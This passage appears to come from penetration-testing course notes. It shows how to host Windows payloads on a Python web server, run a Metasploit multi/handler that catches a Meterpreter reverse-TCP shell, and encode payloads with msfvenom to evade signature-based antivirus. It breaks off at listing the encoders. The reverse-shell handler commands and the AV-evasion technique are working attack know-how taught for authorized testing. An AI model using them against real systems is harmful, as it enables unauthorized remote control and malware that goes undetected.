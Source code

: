 - **Navigate to the Windows payloads directory:**

    ```bash
    cd Windows_Payloads/
    ```

- **Set up a simple web server to host the payload files:**

    ```bash
    sudo python -m SimpleHTTPServer 80
    ```

- **Open a new tab and launch msfconsole:**

    ```bash
    msfconsole
    ```

    - **Set up and run the handler:**

        ```bash
        use multi/handler
        set payload windows/meterpreter/reverse_tcp
        set lhost [yourIP]
        set lport [port]
        run
        ```

    - **Result**: We obtained a Meterpreter session.
 
## Encoding Payloads with Msfvenom

- **AV Detection**: Since this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be aware of antivirus (AV) detection.
- **Signature-Based Detection**: Most end-user AV solutions utilize signature-based detection to identify malicious files or executables.
- **Evading AV Solutions**: We can evade older signature-based AV solutions by encoding our payloads.
- **Encoding**: Encoding is the process of modifying the payload shellcode with the objective of altering the payload's signature to evade detection.

## Shellcode

- **Definition**: Shellcode is a piece of code typically used as a payload for exploitation.
- **Origin of the Term**: It derives its name from "command shell," where shellcode is a piece of code that provides an attacker with a remote command shell on the target system.

## Demo: Encoding Payloads with Msfvenom

### Encoding Windows Payload

1. **List available encoders:**

    ```bash
    msfvenom --list encoders
    ```
